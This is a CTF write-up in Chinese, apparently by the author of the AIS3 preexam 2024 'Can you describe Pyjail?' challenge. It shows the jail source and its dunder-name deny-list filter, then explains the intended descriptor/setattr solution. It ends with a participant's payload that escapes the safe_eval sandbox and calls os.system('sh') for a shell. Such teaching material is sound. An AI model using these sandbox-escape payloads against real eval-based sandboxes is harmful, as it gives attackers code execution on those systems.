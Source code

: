 # AIS3 preexam 2024

這次在 AIS3 preexam 只有出一題，主要用的艮是之前在研究 cPython 時發現的一個有趣特性，希望大家會喜歡 ouo

## Can you describe Pyjail?

solve: 2/321

TL;DR;
1. 發現 [python descriptor 優先度性質](https://blog.vincent55.tw/posts/python_descriptor/)
2. 找到 setattr
3. 將 descriptor 加上 `__set__` 屬性，結束！

```python
class Desc:
    """
    Welcome to my 🐍 ⛓️
    """

    def __get__(self, objname, obj):
        return __import__("conf").flag

    def desc_helper(self, name):
        origin = getattr(type, name)
        if origin == type.__getattribute__:
            raise NameError(
                "Access to forbidden name %r (%r)" % (name, "__getattribute__")
            )
        self.helper = origin


class Test:
    desc = Desc()
    
test = Test()
test.desc = "flag{fakeflag}"

# Just a tricky way to print a welcome message, or maybe a hint :/
# You can just `print(getdoc(Desc))`
# This is not part of the challenge, but if you can get the flag through here, please contact @Vincent55.
welcome_msg = """
desctmp := Desc()
desctmp.desc_helper("__base__")
Obj := desctmp.helper
desctmp := Desc()
desctmp.desc_helper("__subclasses__")
print(getdoc(desctmp.helper(Obj)[-2]))
""".strip().replace("\n", ",")
welcome_msg = f"({welcome_msg})"

safe_eval(
    welcome_msg,
    {"__builtins__": {}},
    {"Desc": Desc, "print": print, "getdoc": getdoc},
)


# Your challenge begin here!
payload = input("✏️: ")

safe_eval(
    payload,
    {"__builtins__": {}},
    {"Desc": Desc},
)

# print(f"test.__dict__: {test.__dict__}")
print(f"🚩: {test.desc}")

```

這題先是定義了一個 Descriptor 將 flag 放到 `__get__` 中，並且讓 Test 使用這個 Descriptor，實例化之後將假 flag 放到 test 的 `__dict__` 中，導致最後在 `print(f"🚩: {test.desc}")` 時只會印出假的 flag。

這題的預期解是往 descriptor 的類別上加入 `__set__` 屬性，透過 descriptor 的特性（詳見 [深入解析 Python descriptor 與其 opcode 處理](https://blog.vincent55.tw/posts/python_descriptor/)），讓在 `GETATTR` 時優先使用 `__get__`，如此一來最後就會將 flag 印出來。

那接下來的問題就回到我們該如何往類別上加入屬性呢，我們有一次的 safe_eval 控制機會，並且可以發現他將 `Desc` 也放進 context 了，沒錯，我們要在 `Desc` 中找 gadget。

```python
from types import CodeType

_UNSAFE_ATTRIBUTES = [
    "f_builtins",
    "f_globals",
    "f_locals",
    "gi_frame",
    "gi_code",
    "co_code",
    "func_globals",
    "format",
    "format_map",
]


def test_no_dunder_name(code_obj, expr):
    for name in code_obj.co_names:
        if "__" in name or name in _UNSAFE_ATTRIBUTES:
            raise NameError("Access to forbidden name %r (%r)" % (name, expr))


def test_codeobj(code_obj, expr):
    test_no_dunder_name(code_obj, expr)
    for const in code_obj.co_consts:
        if isinstance(const, CodeType):
            test_codeobj(const, expr)


def test_expr(expr):
    code_obj = compile(expr, "", "eval")
    test_no_dunder_name(code_obj, expr)
    test_codeobj(code_obj, expr)
    return code_obj


def safe_eval(expr, globals_dict, locals_dict):
    c = test_expr(expr)
    return eval(c, globals_dict, locals_dict)
```

可以看到在這個 `safe_eval.py` 中會遞迴的在 `code object` 中看 `co_names` 是否有存在 `__`，也就是說我們不能直接用 dunder method。

```python
class Desc:
    """
    Welcome to my 🐍 ⛓️
    """

    def __get__(self, objname, obj):
        return __import__("conf").flag

    def desc_helper(self, name):
        origin = getattr(type, name)
        if origin == type.__getattribute__:
            raise NameError(
                "Access to forbidden name %r (%r)" % (name, "__getattribute__")
            )
        self.helper = origin
```

回來看到 `Desc` 當中有定義了 `desc_helper` ，裡面有 getattr 可以使用，由於我們的目的是拿到 setattr 之類的東西，在 `type` 中找一下就會發現我們可以使用 `type.__setattr__`！

於是我們最終的 payload 就長這樣:
```python
payload = """
desctmp := Desc()
desctmp.desc_helper("__setattr__")
Setattr := desctmp.helper
Setattr(Desc, "__set__", 1)
""".strip().replace("\n", ",")
payload = f"({payload})"
print(payload)
```

這題 @maple3142 有找到一個非預期解，主要是在 `desc_helper` 過程中雖然有檢查不能回傳 `type.__getattribute__`，但如果是回傳 `type.__dict__` 之後再透過 `a['__getattribute__']` 就可以拿到 getattr 了。
這樣不會被 safe_eval 擋下來的原因是 `a['__getattribute__']`  這種操作的 dunder strings 是在 `co_consts` 不是在 `co_name`，有了 getattr 後就能直接 getshell 了，不用管 descriptor 的性質。

maple 的 payload:
```python
(d:=Desc(),d.desc_helper('__dict__'),ga:=d.helper['__getattribute__'],d.desc_helper('__base__'),object:=d.helper,gao:=ga(object,'__getattribute__'),newobj:=gao([],'__reduce_ex__')(3)[0]),gao(newobj,'__builtins__')['__import__']('os').system('sh')
```
 
